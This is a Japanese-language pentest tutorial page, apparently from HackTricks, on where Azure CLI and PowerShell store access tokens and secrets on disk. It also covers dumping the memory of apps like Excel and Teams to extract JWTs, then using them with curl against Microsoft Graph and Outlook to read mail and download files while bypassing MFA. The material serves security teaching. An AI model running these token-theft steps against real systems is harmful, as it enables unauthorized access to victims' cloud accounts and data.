 # Az - ローカルクラウド資格情報

{{#include ../../../banners/hacktricks-training.md}}

## ローカルトークンストレージとセキュリティ考慮事項

### Azure CLI (コマンドラインインターフェイス)

トークンと機密データはAzure CLIによってローカルに保存されており、セキュリティ上の懸念があります：

1. **アクセストークン**: `C:\Users\<username>\.Azure`にある`accessTokens.json`にプレーンテキストで保存されています。
2. **サブスクリプション情報**: 同じディレクトリにある`azureProfile.json`にはサブスクリプションの詳細が含まれています。
3. **ログファイル**: `.azure`内の`ErrorRecords`フォルダーには、次のような資格情報が露出したログが含まれている可能性があります：
- 資格情報が埋め込まれた実行されたコマンド。
- トークンを使用してアクセスされたURL、機密情報を明らかにする可能性があります。

### Azure PowerShell

Azure PowerShellもトークンと機密データを保存しており、ローカルでアクセスできます：

1. **アクセストークン**: `C:\Users\<username>\.Azure`にある`TokenCache.dat`にプレーンテキストで保存されています。
2. **サービスプリンシパルシークレット**: これらは`AzureRmContext.json`に暗号化されずに保存されています。
3. **トークン保存機能**: ユーザーは`Save-AzContext`コマンドを使用してトークンを永続化することができますが、不正アクセスを防ぐために注意して使用する必要があります。

### 自動ツールでの発見

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## メモリ内のトークン

[**このビデオ**](https://www.youtube.com/watch?v=OHKZkXC4Duw)で説明されているように、クラウドと同期された一部のMicrosoftソフトウェア（Excel、Teamsなど）は、**メモリ内にプレーンテキストでアクセストークンを保存する可能性があります**。したがって、プロセスの**メモリをダンプ**し、**JWTトークンをgrep**することで、MFAをバイパスしてクラウド内の被害者のいくつかのリソースにアクセスできるかもしれません。

手順：

1. お気に入りのツールを使用して、EntraIDユーザーと同期されたExcelプロセスをダンプします。
2. `string excel.dmp | grep 'eyJ0'`を実行し、出力内のいくつかのトークンを見つけます。
3. 最も興味のあるトークンを見つけ、それらに対してツールを実行します：
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**この種のアクセストークンは、他のプロセス内にも存在する可能性があることに注意してください。**

{{#include ../../../banners/hacktricks-training.md}}
